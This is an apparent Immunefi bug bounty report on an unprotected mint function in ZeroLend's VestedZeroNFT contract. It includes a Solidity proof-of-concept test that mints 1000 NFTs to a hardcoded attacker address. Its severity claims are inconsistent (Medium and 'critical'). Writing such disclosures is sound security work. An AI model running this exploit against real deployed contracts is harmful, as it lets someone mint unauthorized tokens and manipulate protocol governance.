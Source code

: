 
# Unlimited Minting of VestedZeroNFT

Submitted on Thu Mar 07 2024 17:55:31 GMT-0400 (Atlantic Standard Time) by @oxumarkhatab for [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost/)

Report ID: #29130

Report type: Smart Contract

Report severity: Medium

Target: https://github.com/zerolend/governance

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Brief/Intro
In current Implementation , the checks can easily be passed inside the public mint function because all the paramters are user controlled and there is no access control on that function.


## Vulnerability Details

The mint function does not have any access control implemented .
Also there are  checks which can easily be circumvented through careful 
crafting of those parameters and minting unlimited NFTs .

Take a look at this code 

```
    function mint(
        address _who,
        uint256 _pending,
        uint256 _upfront,
        uint256 _linearDuration,
        uint256 _cliffDuration,
        uint256 _unlockDate,
        bool _hasPenalty,
        VestCategory _category
    ) external returns (uint256) {
        _mint(_who, ++lastTokenId);

        if (_unlockDate == 0) _unlockDate = block.timestamp;
        require(_unlockDate >= block.timestamp, "invalid _unlockDate");

        if (_hasPenalty) {
            require(_upfront == 0, "no upfront when there is a penalty");
            require(_cliffDuration == 0, "no cliff when there is a penalty");
        }

        tokenIdToLockDetails[lastTokenId] = LockDetails({
            cliffDuration: _cliffDuration,
            unlockDate: _unlockDate,
            pendingClaimed: 0,
            upfrontClaimed: 0,
            pending: _pending,
            hasPenalty: _hasPenalty,
            upfront: _upfront,
            linearDuration: _linearDuration,
            createdAt: block.timestamp,
            category: _category
        });

        // fund the contract
        zero.transferFrom(msg.sender, address(this), _pending + _upfront);

        return lastTokenId;
    }

```
First of all , there is no restriction to call this function so attacker can call and exploit it.

The function mints the latest ID NFT to the address passed , 
the attacker will pas his own address
`
        _mint(_who, ++lastTokenId);

`
Now attacker has to make this transaction success by avoiding require failures.
here's how he can do it.

If user pass `_unlockDate` as 0 , then following checks will be passed
`
        if (_unlockDate == 0) _unlockDate = block.timestamp;
        require(_unlockDate >= block.timestamp, "invalid _unlockDate");

`

Now for circumventing Plenty block, user will pass false

`
   if (_hasPenalty) {
            require(_upfront == 0, "no upfront when there is a penalty");
            require(_cliffDuration == 0, "no cliff when there is a penalty");
        }
`
a new Lock is created

`
     tokenIdToLockDetails[lastTokenId] = LockDetails({
            cliffDuration: _cliffDuration,
            unlockDate: _unlockDate,
            pendingClaimed: 0,
            upfrontClaimed: 0,
            pending: _pending,
            hasPenalty: _hasPenalty,
            upfront: _upfront,
            linearDuration: _linearDuration,
            createdAt: block.timestamp,
            category: _category
        });
`

And lastly some zeroToken needs to be moved from attacker's pocket to VestedZeroNFT contract . Which attacker can easily trick by passing 
pending and upfront amounts as 0 , 
`
        zero.transferFrom(msg.sender, address(this), _pending + _upfront);

`
See the protocol does not use safeTransferFrom , rather transferFrom from openzeppelin standard as it imports as follows 

`
import {IERC20} from "@openzeppelin/contracts/interfaces/IERC20.sol";

`
Looking at OZs implementation , this function returns false on not sucess, 
so whatever amount we pass in as _pending and _upfront , the transfer might fail but transaction will not . That is the sweet spot for attacker.

`
function transferFrom(address from, address to, uint256 value) external returns (bool);
`

The Transaction is sucessfully executed and now the attacker has New NFT.

This process can be repeated for as long as attacker wants to print money out of thin air .

If Governance can be affected by amount of NFTs you have , Attacker has successfully gained the absolute power to screw the governance.

Hence this vulnerability is of critical importance.

## Impact Details

Attacker can have unlimited NFTs at the cost of just gas for transaction : )

If Governance can be affected by amount of NFTs you have , Attacker has successfully gained the absolute power to screw the governance.

Hence this vulnerability is of critical importance.

## References
See PoC for more details
        
## Proof of concept
## Proof of Concept

```solidity

event NewTokenIDMinted(uint);

    function test_InfiniteMint()public {
        address DEPLOYED_VESTED_ZERO_NFT_ADDRESS=address();
        address AttackerAddress=0x37A8d3c717ec8fDc8BD859627F18ce89c31E1E8b;
        VestedZeroNFT vest=new VestedZeroNFT();
        for (uint i = 0; i < 1000; i++) {
            
            uint newTokenId =vest.mint(
                    AttackerAddress,
                    0,
                    0,
                    0, // pass any suitable value 
                    0, // pass any suitable value 
                    0 ,// to  these checks  if (_unlockDate == 0) _unlockDate = block.timestamp; require(_unlockDate >= block.timestamp, "invalid _unlockDate");
                    false,
                    VestCategory.EARLY_ZERO


                );
                emit NewTokenIDMinted(newTokenId);
            
            }

    }
```